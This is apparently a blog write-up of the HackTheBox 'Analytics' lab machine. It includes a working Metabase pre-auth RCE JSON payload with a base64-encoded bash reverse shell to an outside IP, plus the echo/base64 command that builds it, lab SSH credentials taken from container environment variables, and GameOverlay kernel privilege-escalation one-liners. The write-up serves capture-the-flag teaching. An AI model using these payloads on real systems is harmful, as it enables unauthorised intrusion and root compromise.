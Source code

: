 ```yaml
---
title: "HackTheBox | Analytics"
layout: post
date: 2024-03-30 21:00
tag: 
- HackTheBox
- Pentesting
- Machines
- Metabase
- Easy
- Docker
- GameOverlay
image: https://labs.hackthebox.com/storage/avatars/f86fcf4c1cfcc690b43f43e100f89718.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "This is a simple and minimalist template for Jekyll for those who likes to eat noodles."
category: project
author: johndoe
externalLink: false
---
```


# Overview

Analytics is an easy Linux HackTheBox machine. Enumeration of the website reveals a Metabase instance, which is vulnerable to Pre-Authentication RCE, which is leveraged to gain a foothold inside a Docker container. Upon enumerating the Docker container we see that the environment variables set contain credentials that can be used to SSH into the host. The root flag is obtained by exploiting the known GameOverlay kernel vulnerability.

---

# Nmap

```bash
nmap -A -T4 10.129.30.245   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 11:19 EDT
Nmap scan report for 10.129.30.245
Host is up (0.16s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open     http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
1027/tcp  filtered IIS
2638/tcp  filtered sybase
3323/tcp  filtered active-net
5950/tcp  filtered unknown
19315/tcp filtered keyshadow
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I checked the web page on port 80 and found a login page on the subdomain `data.analytical.htb` :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010203417.png>)

ffuf also showed the subdomain :

```bash
ffuf -u http://analytical.htb -c -w /usr/share/seclists/Discovery/DNS/fierce-hostlist.txt -H "Host: FUZZ.analytical.htb" -fs 154
```

![alt text](<../../../assets/images/HTBPics/Pasted image 20231008172356.png>)

Now I have a Metabase login page in front of me.
<p>Metabase is an open source tool that allows for powerful data instrumentation, visualization, and querying.</p>

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010203259.png>)

The first thing I thought about was default credentials, but that wasn't the case. So I went to look for possible existing exploits for Metabase and yes that was the case. I found that there is a Pre-Auth RCE in Metabase designated as `CVE-2023-38646`. In other words, we can execute arbitrary commands on the server without requiring any authentication.

![alt text](<../../../assets/images/HTBPics/Pasted image 20231008190828.png>)

To exploit this vulnerability we must do three things :
1. Retrieve Setup Token.
2. Change the content type to application/json.
3. Send a POST request to the */api/setup/validate* endpoint with our `setup-token` and get the reverse shell.

There are two ways to obtain the `setup-token` :
1. Automatically by using the python script : [https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-POC.py](https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-POC.py)
2. Manually by navigating to *http://data.analytical.htb/api/session/properties* and obtain the `setup-token`.

I will show you the two methods :

- Method 1 :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231008190756.png>)

- Method 2 :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010163141.png>)

Now we have the `setup-token`, we can exploit the vulnerability, the bellow blog contains the payload we can use to exploit it, we should just use this with our own IP and port.

[https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase)

```json
{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40MS85OTk5IDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

```bash
echo "bash -i >& /dev/tcp/10.10.16.41/9999 0>&1" | base64
```

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010164734.png>)

Now we are good to go :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010164750.png>)

We got a shell as metabase user :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010164841.png>)

I noticed that I am inside a docker container, the existence of the .dockerenv file confirms that :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010165002.png>)

I said how can I escape this container, while I am looking for a way I said let's check the environment variables, and boom that contained the credentials of metalytics user :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010191050.png>)

Found credentials : *metalytics : An4lytics_ds20223#*
<p>Now I can login into ssh, and find the user flag :</p>

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010191140.png>)

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010191352.png>)

Once I was in, I tried to escalate. I checked if there are any hidden files or any files with SUID byte set, but I found nothing, And next I checked the version of the os, and I googled if it is vulnerable, and I found yes there is actually a POC on reddit under the title **Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)**:

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010200722.png>)

[https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640)

The payload works just fine, I can use commands as root on the machine :

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

Now I should customize the payload to gain a shell as root :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010200851.png>)

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("chmod u+s /bin/bash")'
```

Voilà I am root :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010201652.png>)

I can now read the root flag :

![alt text](<../../../assets/images/HTBPics/Pasted image 20231010201743.png>)

<br/>

# MACHINE PWNED!

<br/>

That was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>